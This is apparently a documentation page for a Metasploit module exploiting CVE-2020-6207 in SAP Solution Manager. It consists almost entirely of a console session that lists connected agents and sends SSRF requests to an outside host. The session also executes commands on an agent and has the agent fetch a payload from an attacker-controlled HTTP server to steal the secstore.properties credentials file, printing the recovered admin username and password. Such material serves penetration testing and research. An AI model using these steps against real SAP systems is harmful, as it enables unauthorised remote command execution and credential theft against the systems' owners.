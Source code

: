 ```
Connected Agents List
=====================

 Server Name   Host Name              Instance Name  OS Name                 Java Version
 -----------   ---------              -------------  -------                 ------------
 test_windows  sap731.corp.test.com   SMDA97         Windows Server 2008 R2  1.6.0_29
 test_linux    saperp7.corp.test.com  SMDA98         Linux                   1.8.0_25

[*] Auxiliary module execution completed
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION SSRF
ACTION => SSRF
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_METHOD PUT
SSRF_METHOD => PUT
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SSRF_URI http://192.168.50.3:7777/
SSRF_URI => http://192.168.50.3:7777/
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Start script: IqsDdgpc5Iwu with SSRF payload on agent: test_linux
[*] Stop script: IqsDdgpc5Iwu on agent: test_linux
[*] Delete script: IqsDdgpc5Iwu on agent: test_linux
[+] Send SSRF: 'PUT http://192.168.50.3:7777/ HTTP/1.1' from agent: test_linux
[*] Auxiliary module execution completed
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION EXEC
ACTION => EXEC
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set COMMAND ping -c 4 192.168.50.3
COMMAND => ping -c 4 192.168.50.3
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Start script: Lu5BnHgzVehn with RCE payload on agent: test_linux
[*] Stop script: Lu5BnHgzVehn on agent: test_linux
[*] Delete script: Lu5BnHgzVehn on agent: test_linux
[+] Execution command: 'ping -c 4 192.168.50.3' on agent: test_linux
[*] Auxiliary module execution completed
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION SECSTORE
ACTION => SECSTORE
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set AGENT test_linux
AGENT => test_linux
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set SRVHOST 192.168.50.3
SRVHOST => 192.168.50.3
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Enable EEM on agent: test_linux
[*] Using URL: http://192.168.50.3:8000/ginMlA2izrNi
[*] Start script: ginMlA2izrNi with payload for retrieving SolMan credentials file from agent: test_linux
[*] Received HTTP request from agent test_linux - 172.16.30.14
[+] Successfully retrieved file /usr/sap/DAA/SMDA98/SMDAgent/configuration/secstore.properties from agent: test_linux saved in: /Users/vladimir/.msf4/loot/20210327204344_SAP_TEST_172.16.30.14_smdagent.secstor_025841.txt
[+] Successfully encoded credentials for SolMan server: 172.16.30.46:50000 from agent: test_linux - 172.16.30.14
[+] SMD Username: j2ee_admin
[+] SMD Password: asdQWE123
[*] Stop script: ginMlA2izrNi on agent: test_linux
```

[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/